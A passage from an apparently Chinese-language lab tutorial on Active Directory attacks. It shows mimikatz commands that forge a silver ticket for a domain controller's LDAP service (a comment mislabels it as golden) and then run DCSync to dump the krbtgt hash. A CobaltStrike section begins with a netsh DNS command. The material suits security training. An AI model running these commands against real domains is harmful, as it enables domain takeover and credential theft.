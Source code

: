 然后执行如下命令生成白银票据并导入内存中，就拥有导出任意用户哈希的权限了。

```
mimikatz.exe

#生成并导入黄金票据到当前内存中
kerberos::golden /domain:xie.com /sid:S-1-5-21-1313979556-3624129433-4055459191 /target:AD01.xie.com /service:ldap /rc4:d5d05db9b06988c17f903ef4847d9367 /user:administrator /ptt

#验证是否成功，导出指定用户哈希
lsadump::dcsync /domain:xie.com /user:krbtgt /csv
```

如图所示，通过对域控的 ldap 服务进行白银票据攻击之后，即有权限导出域内任意用户哈希了！

![截图](5c3c96f01a97f6c9af740bc7f0689b26.png)

### 3.使用 CobaltStrike 进行攻击

当使用 CobaltStrike 进行攻击时，上线的机器可以是域中的普通机器，也可以不是域中的机器。当上线的机器不在域中时，需要将该机器的 DNS 服务器设置为域控。命令行设置 DNS 服务器命令如下：

```
netsh interface ip set dns "以太网" static 10.211.55.4
```

如图所示，通过 CobaltStrike 设置当前主机的 DNS 为 10.211.55.4。

![截图](05058665dd29a45632d69fa95ba02ba1.png)
